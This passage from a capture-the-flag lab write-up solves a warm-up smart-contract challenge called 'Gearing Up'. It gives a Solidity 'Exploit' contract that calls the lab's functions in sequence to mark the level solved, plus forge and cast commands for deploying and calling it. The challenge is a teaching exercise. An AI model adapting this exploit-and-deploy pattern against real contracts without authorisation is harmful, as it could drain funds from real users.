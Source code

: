 ## Finishing Up & Deploying Exploit
Now that we have our Exploit for every function, we just need to call `GearingUp::completedGearing()` to make the `Setup::isSolved()` returns true and solved the lab, here is our final Exploit with the Ether send on Deployment (constructor payable)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./Setup.sol";
import "./GearingUp.sol";

contract Exploit{
    Setup public setup;
    GearingUp public immutable GU;

    constructor(address _setup) payable{
        require(msg.value == 5 ether);
        setup = Setup(_setup);
        GU = GearingUp(setup.GU());
    }

    function solveGearingUp() public{
        GU.callThis();
        GU.sendMoneyHere{value: 5 ether}();
        GU.sendSomeData("GearNumber1", 687221, 0x1a2b3c4d, address(this));
        GU.withdrawReward();
        GU.completedGearingUp();
    }

    receive() external payable { }

}
```

To Deploy the Exploit, we can use this command below on the root of your project folder

```bash
forge create src/gearing-up/Exploit.sol:Exploit -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR --value 5ether
```
you can adjust the command to you needs, by doing this, we are deploying our contract to the network. You will see `Deployer`, `Deployed To`, and `Transaction Hash`, your contract is now deployed with an address of `Deployed To`. To finish up and solve the Lab, let's call our `solveGearingUp()`

```bash
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "solveGearingUp()"
```
And Congratulations! You just Solved Gearing Up and Ready to begin the Real HEIST!

